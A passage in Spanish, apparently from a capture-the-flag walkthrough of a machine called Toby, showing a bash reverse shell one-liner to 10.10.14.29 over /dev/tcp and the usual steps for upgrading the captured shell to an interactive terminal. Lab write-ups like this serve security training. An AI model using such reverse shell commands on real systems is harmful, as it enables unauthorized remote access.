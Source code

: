![XOR chain](/assets/images/Toby/xor_chain.png)

Con la ventana del XOR, haremos una bash para conectarnos remotamente:

```s
bash -c 'bash -i >& /dev/tcp/10.10.14.29/4646 0>&1'
```

Hemos obtenido ahora la shell

![www-data](/assets/images/Toby/reverse_shell.png)

Con un hostname -I vemos que nos encontramos en un contenedor

Para hacer una shell iteractiva:

```s
script /dev/null -c bash
```

Ctrl+Z

```s
stty raw -echo; fg
#ENTER
reset xterm

export TERM=xterm
export SHELL=bash
```
